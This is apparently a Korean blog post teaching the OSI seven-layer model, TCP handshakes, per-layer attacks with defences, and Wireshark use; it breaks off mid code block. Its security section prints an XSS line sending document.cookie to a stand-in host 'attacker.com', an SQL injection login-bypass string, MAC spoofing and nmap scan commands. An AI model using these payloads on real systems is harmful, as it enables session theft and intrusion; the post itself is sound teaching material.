






솔직히 말하면, OSI 7계층은 처음에 그냥 외웠다.

"물데네전세표응" 같은 암기법으로 1계층부터 7계층까지 순서는 외웠는데, 실제로 뭔가 문제가 생겼을 때 "이게 몇 계층 문제인가요?"라는 질문 앞에서 자주 멈칫했다.

이 글은 그냥 외우는 게 아니라 **왜 이렇게 나뉘었는지, 실제로 어떤 장면에서 등장하는지**를 중심으로 정리한 거다. 기본 개념에서 시작해서 보안 위협, TCP 핸드셰이크 상세, Wireshark 실습, 그리고 실무에서 자주 만나는 트러블슈팅 케이스까지 다룬다.

---

## 왜 7계층으로 나눴을까?

1970~80년대, 각 회사들은 자기 네트워크 장비끼리만 통신되는 독자 규격을 만들었다. IBM 장비는 IBM끼리, DEC 장비는 DEC끼리만 됐다.

이게 문제가 되자 ISO(국제표준화기구)가 나서서 "네트워크 통신을 이렇게 표준화하자"며 만든 게 **OSI(Open Systems Interconnection) 모델**이다.[^1] 1984년에 공식 발표됐다.

핵심 아이디어는 **"역할을 분리하자"는 것이다.**

케이블이 물리적으로 연결되는 문제, IP 주소로 찾아가는 문제, 데이터가 깨지지 않게 전달하는 문제 — 이걸 한 덩어리로 처리하면 어느 한 부분만 바꾸기가 어렵다. 계층을 나누면 각 계층은 아래 계층에서 뭔가를 받아서 처리하고 위 계층으로 넘기기만 하면 된다.



---

## 각 계층을 실제로 이해하기

### 1계층 — 물리 (Physical)

말 그대로 물리적인 신호다. 0과 1을 전기 신호, 빛 신호, 전파로 변환해서 케이블이나 공기 중으로 전달한다.

- **장비**: 케이블, 허브, 리피터, 광섬유
- **단위**: 비트(bit)

**실제 등장 장면**: "LAN 케이블 뽑혔어요" — 이게 1계층 문제다. 물리적으로 연결이 안 되면 그 위 계층은 아무 의미가 없다.

---

### 2계층 — 데이터링크 (Data Link)

같은 네트워크 안(같은 LAN)에서 **어느 장치에서 어느 장치로** 보낼지 결정하는 계층이다. 이때 사용하는 주소가 **MAC 주소**다.

- **장비**: 스위치, 브릿지, 무선 AP
- **단위**: 프레임(Frame)
- **주소**: MAC 주소 (예: `AA:BB:CC:DD:EE:FF`)

MAC 주소는 네트워크 카드에 하드웨어적으로 부여된 고유 주소다. 제조사에서 이미 새겨서 나온다.

**실제 등장 장면**: 스위치는 2계층 장비다. 스위치는 "이 MAC 주소를 가진 장치는 몇 번 포트에 있다"는 테이블을 관리하면서 패킷을 해당 포트로만 보낸다. ARP(Address Resolution Protocol)도 2계층과 3계층 사이에서 동작한다 — IP 주소에 대응하는 MAC 주소를 찾는 프로토콜이다.

---

### 3계층 — 네트워크 (Network)

**다른 네트워크 간** 통신을 담당한다. 내 집 공유기에서 구글 서버까지 찾아가는 경로를 결정하는 계층이다. 이때 사용하는 주소가 **IP 주소**다.

- **장비**: 라우터, L3 스위치
- **단위**: 패킷(Packet)
- **주소**: IP 주소 (예: `192.168.1.1`)

**실제 등장 장면**: 라우터는 3계층 장비다. 라우터는 목적지 IP 주소를 보고 "이 패킷은 어느 방향으로 보내야 하나"를 결정한다. TTL(Time To Live)도 3계층 개념 — 패킷이 라우터를 하나씩 지날 때마다 1씩 줄고, 0이 되면 패킷을 버린다. (traceroute가 이 원리를 이용한다.)

---

### 4계층 — 전송 (Transport)

**데이터가 빠짐없이, 순서대로 도착하게** 하는 계층이다. 이 계층에서 TCP와 UDP가 동작한다.

- **단위**: 세그먼트(Segment, TCP) / 데이터그램(Datagram, UDP)
- **주소**: 포트 번호 (예: 80, 443, 22)

| | TCP | UDP |
|---|---|---|
| 연결 방식 | 연결 수립 후 통신 (3-way handshake) | 연결 없이 바로 전송 |
| 신뢰성 | 순서 보장, 손실 시 재전송 | 보장 없음 |
| 속도 | 상대적으로 느림 | 빠름 |
| 사용 예 | HTTP, SSH, FTP | DNS, 스트리밍, 게임 |

**실제 등장 장면**: 방화벽 정책에서 "TCP 443 허용"이라고 쓸 때 — 이게 4계층이다. IP 주소(3계층) + 포트 번호(4계층)를 조합해서 "어떤 서비스에 대한 통신을 허용/차단한다"는 의미다.

---

### 5계층 — 세션 (Session)

두 시스템 간의 **연결(세션)을 수립하고, 유지하고, 종료**하는 계층이다. 로그인 상태를 유지하거나, 파일 전송 중간에 끊겼다가 이어받는 기능이 이 계층과 관련이 있다.

**실제 등장 장면**: 솔직히 5계층은 독립적으로 "이게 5계층 문제다"라고 명확히 구분하기 어렵다. 실제 TCP/IP 스택에서는 4계층과 합쳐서 처리되는 경우가 많다. 웹 서버의 세션 토큰, RPC 연결 등이 여기 해당한다.

---

### 6계층 — 표현 (Presentation)

데이터의 **형식과 표현 방식**을 담당한다. 암호화, 압축, 인코딩이 이 계층에서 이루어진다.

**실제 등장 장면**: HTTPS에서 TLS 암호화가 여기 해당한다. 텍스트를 Base64로 인코딩하거나, 이미지를 JPEG으로 압축하는 것도 6계층 개념이다.

---

### 7계층 — 응용 (Application)

사용자가 직접 사용하는 프로토콜이 여기 있다. HTTP, HTTPS, FTP, SMTP, DNS 등이 모두 7계층이다.

**실제 등장 장면**: 브라우저에서 URL 입력, 이메일 발송, FTP 파일 전송 — 이 모든 게 7계층에서 시작한다.

---

## 데이터가 실제로 이동하는 방식 — 캡슐화와 역캡슐화

계층 구조의 핵심은 **캡슐화(Encapsulation)다.**

데이터를 보낼 때, 각 계층은 자기 계층의 헤더를 데이터 앞에 붙인다. 받는 쪽에서는 반대로 계층마다 헤더를 하나씩 벗겨가며 원본 데이터에 도달한다.

**캡슐화 (송신측)** — 계층을 내려가면서 헤더를 하나씩 추가한다:



**역캡슐화 (수신측)** — 반대로 계층을 올라가면서 헤더를 하나씩 벗겨낸다:



---

## OSI vs TCP/IP — 실제로 쓰이는 건 어느 것?

솔직히 말하면, **현실에서는 TCP/IP 모델을 더 많이 쓴다.**

OSI 7계층은 이론적 참조 모델이고, 실제 인터넷은 TCP/IP 4계층 모델로 동작한다.

| OSI 7계층 | TCP/IP 4계층 |
|---|---|
| 7. 응용 (Application) | 응용 (Application) |
| 6. 표현 (Presentation) | ↑ (통합) |
| 5. 세션 (Session) | ↑ (통합) |
| 4. 전송 (Transport) | 전송 (Transport) |
| 3. 네트워크 (Network) | 인터넷 (Internet) |
| 2. 데이터링크 (Data Link) | 네트워크 접근 (Network Access) |
| 1. 물리 (Physical) | ↑ (통합) |

TCP/IP에서는 OSI 5, 6, 7계층이 하나의 응용 계층으로 합쳐지고, 1, 2계층이 네트워크 접근 계층으로 합쳐진다.

그럼에도 OSI 7계층이 중요한 이유는, **문제를 진단할 때 계층별로 원인을 좁힐 수 있기 때문이다.**

케이블이 문제인지(1계층), IP 설정이 문제인지(3계층), 포트가 막혔는지(4계층), 애플리케이션 설정이 잘못됐는지(7계층) — 이렇게 계층별로 생각하면 문제가 어디 있는지 훨씬 빠르게 찾을 수 있다.

---

## 실제 HTTP 요청이 OSI 계층을 타고 흐르는 방식

브라우저에서 `https://google.com`을 입력하면 어떤 일이 일어날까? 계층별로 따라가 보자.

### 단계별 설명

**7계층 (응용)**: 브라우저가 HTTP GET 요청을 만든다. 목적지 URL을 분석하고, DNS 조회로 `google.com`의 IP 주소(`142.250.196.110`)를 알아낸다.

**6계층 (표현)**: HTTPS이므로 TLS 핸드셰이크가 일어난다. 서버 인증서를 검증하고, 대칭 키를 협상해서 이후 데이터를 암호화한다.

**5계층 (세션)**: TCP 연결을 기반으로 세션이 수립된다. HTTP/1.1이라면 Keep-Alive로 세션을 유지하고, HTTP/2라면 스트림 기반으로 다중화한다.

**4계층 (전송)**: TCP가 요청 데이터를 세그먼트로 쪼개고, 포트 번호(출발지: 랜덤 포트 예: 54321, 목적지: 443)를 붙인다. 3-way handshake로 먼저 연결을 수립한다.

**3계층 (네트워크)**: IP 헤더가 붙는다. 출발지 IP(내 공인 IP 또는 사설 IP), 목적지 IP(142.250.196.110), TTL 등이 포함된다. 라우팅 테이블을 참조해 게이트웨이(공유기)로 패킷을 보낸다.

**2계층 (데이터링크)**: ARP로 게이트웨이의 MAC 주소를 확인한다. 이더넷 프레임으로 감싸서 물리 매체로 전달한다.

**1계층 (물리)**: 비트가 전기 신호나 광신호로 변환돼 케이블이나 무선으로 전송된다.



이 흐름에서 DNS 조회 자체도 UDP 53번 포트를 통해 OSI 전 계층을 거친다. `https://google.com` 한 번 입력에 최소 2번의 완전한 OSI 스택 통신이 일어나는 셈이다(DNS + HTTPS).

---

## TCP 3-way Handshake / 4-way Handshake 상세

TCP의 신뢰성은 연결 수립과 종료 과정에서 나온다. 이 부분은 4계층의 핵심이면서, 보안 공격(SYN Flood)의 대상이기도 하다.

### 3-way Handshake — 연결 수립

TCP 연결을 열 때 세 단계를 거친다.



**각 단계의 의미:**

- **SYN (Synchronize)**: 클라이언트가 "나 연결할게, 내 초기 시퀀스 번호는 100이야"라고 알린다. 서버는 이 요청을 받고 half-open 상태로 대기한다.
- **SYN-ACK**: 서버가 "알겠어, 그리고 내 시퀀스 번호는 200이야"라고 응답한다. `ack=101`은 "100번 받았으니 다음은 101번 줘"라는 의미다.
- **ACK (Acknowledge)**: 클라이언트가 "좋아, 나도 네 200번 받았어. 다음은 201번 줘"라고 확인한다. 이제 양방향 통신이 열린다.

시퀀스 번호를 교환하는 이유는 **데이터 순서를 보장**하기 위해서다. 패킷이 다른 경로로 와서 순서가 뒤바뀌어도, 시퀀스 번호로 올바른 순서로 재조합한다.

### 4-way Handshake — 연결 종료

연결을 닫을 때는 양방향을 각각 끊어야 하므로 네 단계가 필요하다.



**TIME_WAIT 상태란?**

클라이언트가 마지막 ACK를 보낸 뒤 바로 닫지 않고 **2MSL(Maximum Segment Lifetime, 보통 60~120초)** 동안 기다리는 상태다.

이유가 두 가지다:

1. **마지막 ACK가 유실됐을 때**: 서버가 ACK를 못 받으면 FIN을 재전송한다. 클라이언트가 이미 닫혔다면 서버가 영원히 기다리게 된다. TIME_WAIT 동안 재전송된 FIN을 받으면 다시 ACK를 보낼 수 있다.
2. **이전 연결의 패킷이 새 연결에 섞이는 것 방지**: 같은 포트로 바로 새 연결을 맺으면, 지연 도착한 이전 패킷이 새 연결의 데이터처럼 처리될 수 있다. 2MSL이 지나면 이전 패킷은 모두 네트워크에서 사라진다.

실무에서는 서버가 많은 연결을 처리할 때 TIME_WAIT 소켓이 쌓여서 포트가 고갈되는 문제가 생기기도 한다. `ss -tan | grep TIME_WAIT | wc -l`로 확인할 수 있다.

---

## 계층별 보안 위협과 대응 방법

OSI 계층을 이해하면 보안 공격이 어느 계층을 노리는지 파악하기 쉬워진다. 계층별로 대표적인 위협과 대응 방법을 정리했다.

### 계층별 위협 요약표

| 계층 | 대표 위협 | 대응 방법 |
|---|---|---|
| 1계층 (물리) | 물리 도청, 케이블 탭핑 | 물리적 접근 통제, 광케이블 사용 |
| 2계층 (데이터링크) | MAC Spoofing, ARP Poisoning | Dynamic ARP Inspection, Port Security |
| 3계층 (네트워크) | IP Spoofing, ICMP Flood | uRPF, 방화벽 ingress 필터링 |
| 4계층 (전송) | SYN Flood, 포트 스캐닝 | SYN Cookie, Rate Limiting, 방화벽 |
| 7계층 (응용) | XSS, SQL Injection, HTTP Smuggling | WAF, 입력 검증, 파라미터화 쿼리 |

---

### 1계층: 물리 도청 (Physical Tapping)

**공격 방식**: 이더넷 케이블에 물리적으로 접촉해 신호를 복사하거나, 무선 신호를 캡처한다. 허브(Hub) 환경에서는 같은 세그먼트의 모든 트래픽이 모든 포트로 나가기 때문에 특히 취약하다.

**실제 사례**: 오픈 Wi-Fi에서 패킷 캡처. 허브 기반 네트워크에서 Wireshark로 타 PC 트래픽 감청.

**대응**:
- 허브 대신 스위치를 사용한다 (스위치는 해당 포트에만 트래픽 전송).
- 무선 구간은 WPA3 암호화를 적용한다.
- 물리적으로 중요한 구간은 광케이블을 사용한다 (광케이블은 탭핑이 매우 어렵고, 시도 시 신호 감쇠로 탐지 가능).
- 데이터센터 기준으로는 락(lock)이 있는 케이블 잠금장치, CCTV를 활용한다.

---

### 2계층: MAC Spoofing / ARP Poisoning

**MAC Spoofing (MAC 주소 위장)**

공격자가 자신의 네트워크 카드 MAC 주소를 다른 장치의 MAC 주소로 바꿔 스위치를 속이는 공격이다.

```bash
# Linux에서 MAC 주소 변경 (테스트 용도)
ip link set eth0 down
ip link set eth0 address AA:BB:CC:DD:EE:FF
ip link set eth0 up
```

스위치는 MAC 주소 기반으로 포트를 결정하므로, MAC을 위장하면 다른 장치로 향하는 트래픽을 가로챌 수 있다.

**ARP Poisoning (ARP 캐시 오염)**

ARP는 "이 IP 주소에 해당하는 MAC 주소가 뭐야?"를 묻는 프로토콜이다. ARP에는 인증 메커니즘이 없다. 공격자가 가짜 ARP 응답을 보내 피해자의 ARP 캐시를 오염시키면, 피해자의 트래픽이 공격자를 거쳐 가게 된다 — 이것이 **ARP 스푸핑/맨인더미들(MitM) 공격**이다.

```
[피해자] → ARP: "192.168.1.1(게이트웨이)의 MAC은?"
[공격자] → ARP Reply: "192.168.1.1의 MAC은 내 MAC이야" (거짓)
[피해자] → ARP 캐시에 잘못된 정보 저장
[피해자] → 이후 게이트웨이로 보내는 트래픽이 공격자에게 전달
```

**대응**:
- **Dynamic ARP Inspection (DAI)**: 스위치에서 DHCP 바인딩 테이블과 비교해 비정상 ARP 패킷을 차단한다.
- **Port Security**: 스위치 포트당 허용 MAC 주소 수를 제한한다.
- **Static ARP Entry**: 중요 시스템(게이트웨이 등)의 ARP를 정적으로 고정한다.
- ARP 스푸핑 탐지 도구 (arpwatch 등) 활용.

---

### 3계층: IP Spoofing / ICMP Flood

**IP Spoofing (IP 주소 위조)**

패킷의 출발지 IP 주소를 위조하는 공격이다. 공격자의 실제 위치를 숨기거나, 반사(reflection) 공격에 활용된다.

**반사/증폭 공격 예시:**

```
공격자 → DNS 서버에 쿼리 전송 (출발지 IP = 피해자 IP로 위조)
DNS 서버 → 피해자에게 대용량 응답 전송 (증폭)
```

작은 쿼리로 큰 응답을 유도해 피해자에게 폭탄처럼 쏟아내는 방식이다.

**ICMP Flood (핑 폭탄)**

대량의 ICMP Echo Request(ping)를 보내 대역폭이나 CPU를 고갈시키는 공격이다. **Smurf Attack**은 브로드캐스트 주소로 출발지 IP를 피해자로 위조한 ICMP를 보내 네트워크 내 모든 장치가 피해자에게 ping 응답을 보내게 만드는 변형이다.

**대응**:
- **uRPF (Unicast Reverse Path Forwarding)**: 라우터가 패킷 출발지 IP의 경로를 역방향으로 확인해, 위조된 IP에서 온 패킷을 차단한다.
- ISP 레벨의 **BCP38** 구현 (egress 필터링으로 자기 네트워크에서 위조 IP 유출 차단).
- 방화벽에서 외부에서 내부 IP로 위장된 패킷 차단 (ingress 필터링).
- ICMP를 완전히 차단하기보다는 Rate Limiting으로 제한한다 (완전 차단 시 traceroute 등도 안 됨).

---

### 4계층: SYN Flood / 포트 스캐닝

**SYN Flood**

TCP 3-way Handshake를 악용한 공격이다. 공격자가 수백만 개의 SYN 패킷을 보내는데, 이때 출발지 IP를 위조해서 서버가 SYN-ACK를 보내도 돌아오지 않게 한다.

```
공격자 → SYN (출발지 IP 위조)
서버   → SYN-ACK 전송 (but 응답이 오지 않음)
서버   → half-open 연결을 백로그 큐에 저장하며 대기
...
백로그 큐 가득 참 → 정상 연결 요청 처리 불가
```

**대응**:
- **SYN Cookie**: 백로그 큐를 사용하지 않고, SYN-ACK의 시퀀스 번호에 연결 정보를 인코딩한다. 실제 ACK가 돌아와야 연결을 수립한다 (Linux에서 `net.ipv4.tcp_syncookies=1`).
- **Rate Limiting**: 출발지 IP당 SYN 요청 속도를 제한한다.
- **방화벽 / DDoS 방어 장비**: 비정상 SYN 패킷을 필터링한다.

**포트 스캐닝**

공격자가 대상 시스템의 열린 포트를 확인하는 정찰 행위다. nmap이 대표적인 도구다.

```bash
# TCP SYN 스캔 (스텔스 스캔)
nmap -sS 192.168.1.1

# 서비스 버전 탐지
nmap -sV 192.168.1.1

# OS 탐지
nmap -O 192.168.1.1
```

**대응**:
- 불필요한 포트는 닫는다.
- 방화벽에서 허용된 포트만 열어둔다.
- IDS/IPS로 포트 스캐닝 패턴(단시간 다수 포트 접근)을 탐지한다.
- Port Knocking으로 SSH 등 관리 포트를 숨긴다.

---

### 7계층: XSS / SQL Injection / HTTP Request Smuggling

**XSS (Cross-Site Scripting)**

공격자가 악성 스크립트를 웹 페이지에 삽입하고, 다른 사용자의 브라우저에서 실행되게 만드는 공격이다.

```html
<!-- 게시글 제목에 삽입된 악성 코드 -->
<script>document.location='https://attacker.com/?c='+document.cookie</script>
```

피해자가 이 게시글을 보면, 쿠키(세션 토큰)가 공격자 서버로 전송된다.

**대응**: 입력값 이스케이프 처리, CSP(Content Security Policy) 헤더, HttpOnly 쿠키 속성.

**SQL Injection**

사용자 입력이 SQL 쿼리에 직접 삽입될 때 발생하는 취약점이다.

```sql
-- 정상 쿼리 의도
SELECT * FROM users WHERE username = 'alice' AND password = '1234';

-- 공격자 입력: username = "' OR '1'='1"
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '...';
-- 1=1 은 항상 참 → 인증 우회
```

**대응**: 파라미터화 쿼리(Prepared Statement), ORM 사용, 입력 검증, 최소 권한 DB 계정.

**HTTP Request Smuggling**

프론트엔드 서버(리버스 프록시)와 백엔드 서버가 HTTP 요청의 경계를 다르게 해석하는 차이를 악용하는 공격이다. `Content-Length`와 `Transfer-Encoding: chunked` 헤더를 동시에 보내 요청 경계를 흐리게 만든다.

공격에 성공하면 다른 사용자의 요청을 가로채거나, 내부 API에 접근하거나, 캐시를 오염시킬 수 있다.

**대응**: 프록시와 백엔드 서버 간 HTTP 파서를 일관되게 구성, HTTP/2 사용(smuggling에 강함), WAF 적용.

---

## Wireshark로 패킷 캡처 실습

이론으로 배운 OSI 계층을 눈으로 확인하는 가장 좋은 방법이 Wireshark다. 각 계층의 헤더를 실제로 볼 수 있다.

### Wireshark에서 보이는 계층 구조

Wireshark를 열고 패킷 하나를 클릭하면 하단에 계층별로 파싱된 정보가 트리 형태로 나온다.

```
Frame 42: 74 bytes on wire                     ← 1계층 (물리 - 프레임 크기)
Ethernet II, Src: aa:bb:cc:dd:ee:ff            ← 2계층 (MAC 주소)
Internet Protocol Version 4, Src: 192.168.1.5  ← 3계층 (IP)
Transmission Control Protocol, Src Port: 54321 ← 4계층 (TCP/포트)
Hypertext Transfer Protocol                     ← 7계층 (HTTP)
```

트리의 각 항목을 펼치면 해당 헤더의 모든 필드를 볼 수 있다. 예를 들어 IP 헤더를 펼치면 TTL, 프로토콜 번호, 체크섬까지 확인된다.

### 자주 쓰는 필터

Wireshark의 디스플레이 필터(상단 입력창)로 원하는 패킷만 추려볼 수 있다.

| 필터 | 설명 |
|---|---|
| `tcp` | TCP 패킷만 보기 |
| `udp` | UDP 패킷만 보기 |
| `http` | HTTP 패킷만 보기 |
| `dns` | DNS 쿼리/응답 보기 |
| `ip.addr == 192.168.1.1` | 특정 IP 관련 패킷 |
| `ip.src == 10.0.0.1` | 특정 IP에서 출발한 패킷 |
| `tcp.port == 443` | 특정 포트 관련 패킷 |
| `tcp.flags.syn == 1` | SYN 패킷만 (연결 시도) |
| `tcp.flags.reset == 1` | RST 패킷 (연결 거부/리셋) |
| `http.request.method == "GET"` | HTTP GET 요청만 |
| `http contains "password"` | 특정 문자열 포함 패킷 |

필터는 AND/OR 조합도 가능하다:

```
ip.addr == 192.168.1.5 && tcp.port == 80
tcp.flags.syn == 1 && !tcp.flags.ack == 1
```

### 3-way Handshake를 Wireshark로 확인하기

TCP 연결 수립을 직접 보고 싶다면:

1. Wireshark 캡처 시작
2. `curl http://example.com` 실행
3. 필터: `tcp && ip.addr == 93.184.216.34` (example.com IP)
4. SYN → SYN-ACK → ACK 순서로 패킷 3개가 보임

각 패킷을 클릭해서 TCP 헤더를 펼치면 `Sequence number`, `Acknowledgment number`, `Flags` 필드를 직접 확인할 수 있다.

### HTTPS 트래픽 복호화

HTTPS는 암호화돼 있어서 기본적으로 Wireshark에서 내용이 안 보인다. 그러나 클라이언트의 **SSLKEYLOGFILE** 환경변수를 설정하면 브라우저가 세션 키를 파일에 기록하고, Wireshark가 이를 읽어 복호화할 수 있다.

```bash
# Linux/Mac
export SSLKEYLOGFILE=~/ssl-keys.log
google-chrome &  # 또는 firefox

# Wireshark → Edit → Preferences → Protocols → TLS
# (Pre)-Master-Secret log filename에 ~/ssl-keys.log 입력
```

이후 HTTPS 트래픽도 HTTP처럼 평문으로 보인다. 개발/디버깅 용도로만 사용해야 한다.

### 캡처 필터 vs 디스플레이 필터

- **캡처 필터** (캡처 시작 전 설정): 저장 자체를 필터링. 디스크 절약에 유리. BPF(Berkeley Packet Filter) 문법 사용.
  ```
